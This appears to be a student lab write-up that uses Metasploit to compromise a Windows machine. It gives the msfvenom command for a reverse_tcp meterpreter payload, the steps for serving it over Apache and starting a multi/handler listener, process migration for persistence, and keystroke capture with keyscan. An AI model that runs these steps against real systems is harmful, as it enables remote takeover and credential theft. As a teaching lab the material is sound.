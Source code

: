 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
PROGRAM:
Find the attackers ip address using ifconfig

![WhatsApp Image 2025-04-23 at 13 53 13_d6ad3884](https://github.com/user-attachments/assets/a79f0188-1caa-4979-a2a6-9a235f400e13)

Create a malicious executable file fun.exe using msenom command  msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
copy the fun.exe into the apache /var/www/html folder
Start apache server sudo systemctl apache2 start
Check the status of apache2 sudo apache2 status
## output:
![WhatsApp Image 2025-04-23 at 20 20 57_a676b27d](https://github.com/user-attachments/assets/93ad7f48-74e4-46fd-a9d5-bbedb519c066)


Invoke msfconsole:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
## output :
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

Bypass any warning boxes, double-click the file, and allow it to run. On kali give the command exploit

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/user-attachments/assets/729dc34c-b5b1-4cc6-8770-22d2331caede)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

![image](https://github.com/user-attachments/assets/d93cac14-3fc3-444b-8159-bc2e0bc66d3a)

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/user-attachments/assets/2cfb6dd1-773b-4b42-9cd5-6cbb204a3145)

Post Exploitation:
The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/user-attachments/assets/0810a377-a529-4f89-896e-af33fad9b043)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
